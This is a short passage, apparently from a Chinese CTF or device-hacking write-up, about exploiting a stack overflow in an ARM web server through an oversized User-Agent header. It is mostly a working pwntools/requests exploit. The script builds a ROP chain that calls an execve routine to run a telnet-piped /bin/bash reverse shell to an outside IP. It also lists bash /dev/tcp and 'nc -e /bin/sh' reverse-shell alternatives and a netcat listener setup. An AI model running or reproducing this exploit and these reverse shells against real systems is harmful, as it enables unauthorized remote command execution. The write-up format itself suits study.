 ```python

#0x2FE38 : mov lr, r2 ; ldr r2, [pc, #0xc] ; ldr r2, [pc, r2] ; str r1, [r0, r2] ; mvn r0, #0 ; bx lr

```

shell1:

```
python exp.py
```

shell2:

```
nc -l -p 8888
```

gadget找得眼快瞎掉了，，却发现打板子上打不通，以为是板子上有NX保护

于是想起之前的`execve`，想着试试看能不能控制参数再返回到那里命令注入

思路是在ROP拿到的栈地址处写命令，将其地址保存在R0寄存器中作为参数返回到have_execve函数

exp：

```python
from pwn import *
import requests
context.arch='arm'
url = "http://20.21.2.27:59816/404.html"
#url = "http://127.0.0.1:59816/404.html"


bss = 0x8B3C0
have_execve = 0x19158

#bash -i >& /dev/tcp/ip/port 0>&1

#nc 192.168.51.138 8888 -e /bin/sh

#telnet 192.168.51.138 1234 | /bin/bash | telnet 192.168.51.138 4321

cmd = 'telnet 192.168.51.138 1234 | /bin/bash | telnet 192.168.51.138 4321'
pd =  '1'*0x440
pd += p32(0x53ec8)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0x22F48)+p32(bss)+p32(0)+p32(0x38200)
pd += p32(0)+p32(0)+p32(bss)+p32(0)+p32(0)+p32(have_execve)
pd += 'a'*0x48+cmd+p32(0)+'i'*0x40

hd = {"Host": "192.168.51.199:59816","User-Agent":pd}
r = requests.post(url,headers=hd, verify=False, timeout=1000)

#0x53ec8 : pop {r4, r5, r6, r7, r8, sb, sl, pc}

#0x38200: add r2, sp, #0x5c ; blx r8

#0x22F48 : mov r0, r2 ; pop {r4, r5, r6, r7, r8, pc}

```
